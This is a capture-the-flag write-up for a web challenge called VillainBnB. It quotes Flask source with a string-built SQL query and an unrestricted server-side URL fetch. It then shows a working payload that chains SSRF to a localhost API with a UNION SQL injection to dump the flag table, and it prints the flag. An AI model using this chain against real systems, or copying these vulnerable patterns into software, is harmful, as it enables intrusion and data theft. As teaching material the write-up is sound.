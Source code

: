 # Web: VillainBnB (419)

This is a website where Villains can get short-term rentals for their nerfarious deeds. There's a flag here somewhere though, can you get it from the database?

[https://uscybercombine-s4-villainbnb.chals.io/](https://uscybercombine-s4-villainbnb.chals.io/)

**Files:** VillainBnB.zip (Too big)

## Writeup

For this web challenge, we are given a zip file of the code. First, we need to extract it, and then everything we need is in app.py.

Here, we can see first that there is a wrapper for URLs that can only be accessed locally.

```py
def localhost_only(func):
    @wraps(func)
    def wrapper(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return jsonify({'error': 'Access denied'}), 403
        return func(*args, **kwargs)
    return wrapper
```

Also, the flag is added to a database just for the flag:

```py
    db.session.add(Flag(flag=FLAG))
```


We also see that SQLAlchemy is used, and the `/api/users` path has the following code:

```py
@api_bp.route('/users', methods=['GET'])
@localhost_only
def get_users():
    username = request.args.get('username')
    if username:
        query = f"SELECT * FROM user WHERE username ='{username}'"
        users = db.session.execute(text(query)).fetchall()
        users_data = [{'id': u.id, 'username': u.username} for u in users]
        return jsonify(users_data)
    else:
        users = User.query.all()
        users_data = [{'id': u.id, 'username': u.username} for u in users]
        return jsonify(users_data)
```

`db.session.execute` is certainly vulnerable to SQL injection, but this is a localhost-only path! 

So, we will need a way to bypass that.

In the `/create` path, which we can access when logged in, we see this:

```py
@app.route('/create', methods=['GET', 'POST'])
@login_required
def create_listing():
    if request.method == 'POST':
        name = request.form['name']
        description = request.form['description']
        image_url = request.form['image_url']

        valid_img = validate_image_url(image_url)

        if valid_img != True:
            flash(f'Invalid image URL. Please provide a valid image URL.\n\nResponse was:\n\n{valid_img}', 'danger')
            return redirect(url_for('create_listing'))

        new_listing = Listing(name=name, description=description, image_url=image_url, author=current_user)
        db.session.add(new_listing)
        db.session.commit()
        flash('Listing created successfully!', 'success')
        return redirect(url_for('index'))

    return render_template('create_listing.html')
```

This seems interesting... We can input a URL and it will return the response if not a valid image...

Now how does it validate the URL?

We also have this function:

```py
def validate_image_url(url):
    try:
        response = requests.get(url, timeout=5)
        response.raise_for_status()
        content_type = response.headers.get('Content-Type')
        if content_type and 'image' in content_type:
            return True
        else:
            return response.text
    except requests.exceptions.RequestException:
        return False
```

Since it gets the URL, what if we chain attacks? What if we request the localhost URL for the users API?


First, we need to register and log in...

If we create a listing with the URL of `http://127.0.0.1:5000/api/users?username=astitz-writeup`, we see this worked!

![Image 1](Screenshots/1.png)
![Image 2](Screenshots/2.png)

And since we know that the user table has 3 columns from our app.py file, which are id, username, and password, we can start to craft a payload to get the flag.

However, an interesting thing with this is that it uses named columns, so rather than just doing something like `' union select 1, flag, 1 from flag union select * where username = '`, we need to name the columns using "as".


And using the payload `http://127.0.0.1:5000/api/users?username=astitz-writeup' union select id, flag as username, flag as password from flag union select * from user where username = '`, we can get the flag!

![Image 3](Screenshots/3.png)

And our flag is `SIVUSCG{whoopsies_SSRF_here!}`! And we just chained a SSRF (Server-Side Request Forgery) with SQL injection!
